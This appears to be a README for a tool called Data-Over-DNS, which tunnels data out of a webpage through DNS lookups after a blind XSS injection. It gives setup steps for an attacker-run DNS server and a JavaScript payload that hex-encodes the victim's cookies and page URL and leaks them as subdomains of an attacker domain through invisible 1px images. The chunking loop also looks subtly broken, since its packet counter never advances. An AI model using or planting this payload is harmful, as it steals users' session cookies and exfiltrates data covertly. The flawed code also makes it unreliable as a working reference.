 # Data-Over-DNS
This tool can be used for tunnelling data over DNS from webpage when the below website code has been injected as part of a BlindXSS attack.

To use this tool you will need a domain name and be able to update DNS records. 
You will need to create a subdomain domain NS record pointing to your own computer or cloud instance.

#DNS Server
Run the dns server with "sudo node DoDNS.js"
//sudo is required to bind to port 53


#Website Code

    <script>
        function dataoOverDNS( domain, file, data ){
            //domain = Your subdomain which is hosting the DoDNS.js node
            //file = A random file name you want built inside the image element
            //data = the data object which is to be transported over DNS
            
            //random_str = create a random string to differentiate between requests.
            var random_str = Math.random().toString(36).substring(2, 6) + Math.random().toString(36).substring(2, 6);
            //convert object to JSON
            var data = JSON.stringify( data );
            var hexstr = "";
            //convert JSON object byte by byte into a hex string
            for (var i = 0; i < data.length; i++) { hexstr += data.charCodeAt(i).toString(16).padStart(2, '0'); }
            //split hex string into 62 byte chunks inside subdomains
            hexstr_sp = hexstr.match(/.{1,62}/g);
            var packets = Math.ceil( hexstr_sp.length / 3 );
            var packet = 0;
            //split hexstring into seperate packets to avoid hitting max length
            for (var i = 0; i < packets; i++) {
                subs = [];
                //fill subdomains with data
                for( i2=0;i2<3;i2++) { subs.push(  (hexstr_sp.hasOwnProperty(packet)) ? hexstr_sp[packet] : "00" ); }
                //create image element to add to webpage to force the victim computer to make a DNS Request
                var oImg = document.createElement("img");
                oImg.setAttribute('src', "https://" + subs[0] + "." + subs[1] + "." + subs[2] + "." + ( i + 1 ).toString(16).padStart(4, '0') + packets.toString(16).padStart(4, '0') + "." + random_str + "." + domain + "/" + file );
                oImg.setAttribute('height', '1px');
                oImg.setAttribute('width', '1px');
                document.body.appendChild(oImg);
            }
        }
        dataoOverDNS('ns.yourdomain.com','randomfile.jpg', { "location" : window.location.href, "cookie" : document.cookie } );
    </script>


